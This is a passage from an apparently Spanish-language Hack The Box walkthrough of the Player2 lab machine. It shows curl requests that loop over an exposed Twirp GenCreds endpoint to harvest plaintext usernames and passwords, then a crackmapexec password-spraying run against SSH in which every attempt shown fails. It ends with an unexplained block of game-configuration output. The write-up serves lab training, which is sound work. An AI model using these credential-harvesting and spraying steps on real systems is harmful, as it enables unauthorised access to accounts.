 ```null
 curl -s -X GET http://product.player2.htb/api/totp | jq
{
  "error": "Cannot GET /"
}
```

Al cambiar a POST, aparece otro error. De momento lo voy a dejar de lado

```null
curl -s -X POST http://product.player2.htb/api/totp | jq
{
  "error": "Invalid Session"
}
```

En la documentación de [curl](https://twitchtv.github.io/twirp/docs/curl.html) explican como utilizar ```twirp```

```null
curl -s -X POST -H "Content-Type: application/json" -d '{"number": 1}' "http://10.10.10.170:8545/twirp/twirp.player2.auth.Auth/GenCreds" | jq
{
  "name": "jkr",
  "pass": "Lp-+Q8umLW5*7qkc"
}
```

Ejecuto 100 veces para obtener todas las credenciales

```null
 for i in $(seq 1 100); do curl -s -X POST -H "Content-Type: application/json" -d '{"number": 1}' "http://10.10.10.170:8545/twirp/twirp.player2.auth.Auth/GenCreds" | jq; done | sort -u
{
}
  "name": "0xdf",
  "name": "jkr",
  "name": "mprox",
  "name": "snowscan",
  "pass": "Lp-+Q8umLW5*7qkc"
  "pass": "tR@dQnwnZEk95*6#"
  "pass": "XHq7_WJTA?QD_?E2"
  "pass": "ze+EKe-SGF^5uZQX"
```

Ninguna es válida por SSH

```null
crackmapexec ssh 10.10.10.170 -u users.txt -p passwords
SSH         10.10.10.170    22     10.10.10.170     [*] SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
SSH         10.10.10.170    22     10.10.10.170     [-] 0xdf:Lp-+Q8umLW5*7qkc Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] 0xdf:tR@dQnwnZEk95*6# Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] 0xdf:XHq7_WJTA?QD_?E2 Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] 0xdf:ze+EKe-SGF^5uZQX Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] jkr:Lp-+Q8umLW5*7qkc Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] jkr:tR@dQnwnZEk95*6# Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] jkr:XHq7_WJTA?QD_?E2 Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] jkr:ze+EKe-SGF^5uZQX Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] mprox:Lp-+Q8umLW5*7qkc Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] mprox:tR@dQnwnZEk95*6# Authentication failed.
SSH         10.10.10.170    22     10.10.10.170     [-] mprox:XHq7_WJTA?QD_?E2 Authentication failed.
```

 [ Game                ]: test
 [ Config Index    ]: test
  [ Game                ]: test
  [ Contrast            ]: 0
  [ Gamma               ]: 0
  [ Resolution X-Axis   ]: 0
  [ Resolution Y-Axis   ]: 0
  [ Controller          ]: 0
 [ Config Index    ]: test